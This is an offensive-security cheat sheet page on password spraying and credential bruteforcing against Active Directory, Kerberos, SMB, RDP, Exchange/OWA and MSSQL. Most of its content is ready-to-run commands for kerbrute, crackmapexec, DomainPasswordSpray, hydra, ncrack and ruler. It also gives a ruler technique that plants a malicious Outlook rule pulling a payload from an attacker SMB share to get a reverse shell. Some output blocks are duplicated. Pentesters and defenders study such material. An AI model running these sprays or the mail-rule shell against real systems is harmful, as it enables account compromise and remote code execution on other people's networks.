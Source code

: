 ```yaml
---
description: >-
  Password spraying refers to the attack method that takes a large number of
  usernames and loops them with a single password.
---
```


# Password spraying

{% hint style="info" %}
The builtin Administrator account (RID:500) cannot be locked out of the system no matter how many failed logon attempts it accumulates.
{% endhint %}

## <mark style="color:red;">**Kerberos pre-auth bruteforcing**</mark>

The Kerberos authentication protocol works with tickets in order to grant access. A ST (Service Ticket) can be obtained by presenting a TGT (Ticket Granting Ticket). That prior TGT can only be obtained by validating a first step named "pre-authentication".

The pre-authentication requires the requesting user to supply its secret key (DES, RC4, AES128 or AES256) derived from his password. An attacker knowing that secret key doesn't need knowledge of the actual password to obtain tickets. This is called [pass-the-key](https://www.thehacker.recipes/ad-ds/movement/kerberos/pass-the-key).

Sometimes, the pre-authentication is disabled on some accounts. The attacker can then obtain information encrypted with the account's key. While the obtained TGT cannot be used since it's encrypted with a key the attacker has no knowledge of, the encrypted information can be used to bruteforce the account's password. This is called [ASREProast](https://www.thehacker.recipes/ad-ds/movement/kerberos/asreproast).

Last but not least, the pre-authentication step can be bruteforced. This type of [credential bruteforcing](https://www.thehacker.recipes/ad-ds/movement/credentials/bruteforcing) is way faster and stealthier than other bruteforcing methods relying on NTLM. Pre-authentication bruteforcing can even be faster by using UDP as the transport protocol, hence requiring less frames to be sent.

{% hint style="info" %}
Kerberos pre-authentication errors are not logged in Active Directory with a normal **Logon failure event (4625)**, but rather with specific logs to **Kerberos pre-authentication failure (4771)**.
{% endhint %}

{% embed url="https://github.com/ropnop/kerbrute" %}

### <mark style="color:orange;">Username bruteforce</mark>

```
 ./kerbrute_linux_amd64 userenum -d domain.local --dc 10.10.10.10 usernames.txt
```

### <mark style="color:orange;">Password bruteforce</mark>

```
./kerbrute_linux_amd64 bruteuser -d domain.local --dc 10.10.10.10 rockyou.txt username
```

### <mark style="color:orange;">Password spray</mark>

```
root@kali:~$ ./kerbrute_linux_amd64 passwordspray -d domain.local --dc 10.10.10.10 domain_users.txt Password123
root@kali:~$ ./kerbrute_linux_amd64 passwordspray -d domain.local --dc 10.10.10.10 domain_users.txt rockyou.txt
root@kali:~$ ./kerbrute_linux_amd64 passwordspray -d domain.local --dc 10.10.10.10 domain_users.txt '123456' -v --delay 100 -o kerbrute-passwordspray-123456.log
```

[smartbrute](https://github.com/ShutdownRepo/smartbrute) (Python) can be used to bruteforce credentials through the Kerberos pre-authentication. The smartbrute utility can be used in a `brute` mode (standard bruteforcing features) or in a `smart` mode (requires prior knowledge of a low-priv user credentials, but operates LDAP enumeration and avoid locking out accounts, fetches the users list and so on).

```
# brute mode, users and passwords lists supplied
smartbrute.py brute -bU $USER_LIST -bP $PASSWORD_LIST kerberos -d $DOMAIN
​
# smart mode, valid credentials supplied for enumeration
smartbrute.py smart -bP $PASSWORD_LIST ntlm -d $DOMAIN -u $USER -p $PASSWORD kerberos
```

### **​​**<mark style="color:orange;">**Spray a pre-generated passwords list**</mark>

Using `crackmapexec` and `mp64` to generate passwords and spray them against SMB services on the network.

```
crackmapexec smb 10.0.0.1/24 -u Administrator -p `(./mp64.bin Pass@wor?l?a)`
```

Using `DomainPasswordSpray` to spray a password against all users of a domain.

```
# https://github.com/dafthack/DomainPasswordSpray
Invoke-DomainPasswordSpray -Password Summer2021!
# /!\ be careful with the account lockout !
Invoke-DomainPasswordSpray -UserList users.txt -Domain domain-name -PasswordList passlist.txt -OutFile sprayed-creds.txt
```

Using `SMBAutoBrute`.

```
Invoke-SMBAutoBrute -UserList "C:\ProgramData\admins.txt" -PasswordList "Password1, Welcome1, 1qazXDR%+" -LockoutThreshold 5 -ShowVerbose
```

## <mark style="color:red;">**RDP**</mark>

Using RDPassSpray to target RDP services.

```
git clone https://github.com/xFreed0m/RDPassSpray
python3 RDPassSpray.py -u [USERNAME] -p [PASSWORD] -d [DOMAIN] -t [TARGET IP]
```

Using hydra and ncrack to target RDP services.

```
hydra -t 1 -V -f -l administrator -P /usr/share/wordlists/rockyou.txt rdp://10.10.10.10
ncrack –connection-limit 1 -vv --user administrator -P password-file.txt rdp://10.10.10.10
```

## <mark style="color:red;">SMB</mark>

```
$ crackmapexec ldap 10.0.2.11 -u 'username' -p 'password' --kdcHost 10.0.2.11 --users
LDAP        10.0.2.11       389    dc01       Guest      badpwdcount: 0 pwdLastSet: <never>
LDAP        10.0.2.11       389    dc01       krbtgt     badpwdcount: 0 pwdLastSet: <never>
```

## <mark style="color:red;">Outlook Web Access</mark>

password spray against an Exchange 2016 server in a offense.local domain:

```
ruler -k --domain offense.local brute --users users --passwords passwords --verbose
```

if you are attempting to replicate this technique in your own labs, you may need to update your /etc/hosts to point to your Exchange server.

If the password spray against an Exchange server was successful and you have obtained valid credentials, you can now leverage Ruler to create a malicious email rule to that will gain you remote code execution on the host that checks that compromised mailbox.

validate the compromised credentials are working by checking if there are any email rules created already:

```
ruler -k --verbose --email spotless@offense.local -u spotless -p 123456  display
```

The below suggests the credentials are working and that no mail rules are set for this account yet:

![](<../../../.gitbook/assets/image (6) (1).png>)

### <mark style="color:orange;">Get a Shell with Malicious Rules</mark>

we can use this technique to get a reverse shell:

```
#payload path:
/root/tools/evilm64.exe

# smb share and server:
smbserver.py tools /root/tools/

# setup your listener and run ruler to create a malicious email rule:
ruler -k --verbose --email spotless@offense.local --username spotless -p 123456  add --location '\\10.0.0.5\tools\\evilm64.exe' --trigger "popashell" --name maliciousrule --send --subject popashell
```

If you want to delete the malicious email rule, do this:

```
ruler -k --verbose --email spotless@offense.local --username spotless -p 123456 delete --name maliciousrule
```

## <mark style="color:red;">MSSQL</mark>

```
use admin/mssql/mssql_enum_sql_logins
```

### <mark style="color:red;">**BadPwdCount attribute**</mark>

{% hint style="info" %}
The number of times the user tried to log on to the account using an incorrect password. A value of 0 indicates that the value is unknown.
{% endhint %}

```
$ crackmapexec ldap 10.0.2.11 -u 'username' -p 'password' --kdcHost 10.0.2.11 --users
LDAP        10.0.2.11       389    dc01       Guest      badpwdcount: 0 pwdLastSet: <never>
LDAP        10.0.2.11       389    dc01       krbtgt     badpwdcount: 0 pwdLastSet: <never>
```

***
